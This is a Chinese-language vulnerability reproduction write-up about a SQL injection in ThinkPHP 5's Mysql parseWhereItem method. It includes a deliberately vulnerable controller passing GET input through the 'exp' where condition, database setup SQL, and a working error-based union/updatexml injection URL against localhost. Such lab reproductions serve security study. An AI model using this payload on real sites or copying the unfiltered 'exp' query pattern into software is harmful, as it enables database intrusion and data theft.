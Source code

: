 ### 漏洞概述

本次漏洞存在于 Mysql 类的 parseWhereItem 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL注入漏洞 的产生。漏洞影响版本： ThinkPHP5全版本 。

### 漏洞环境

thinkphp 5.0.10

### 复现流程

将 application/index/controller/Index.php 文件代码设置如下：

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username');
        $result = db('users')->where('username','exp',$username)->select();
        return 'select success';
    }
}
```

在 config/database.php 文件中配置数据库相关信息，并开启 config/app.php 中的 app_debug 和 app_trace 。创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'axin');
```

访问 http://localhost:8000/index/index/index?username=) union select updatexml(1,concat(0x7,@@version,0x7e),1)# 链接，即可触发 SQL注入漏洞 。（没开启 app_debug 是无法看到 SQL 报错信息的）

![](assets/poc.png)


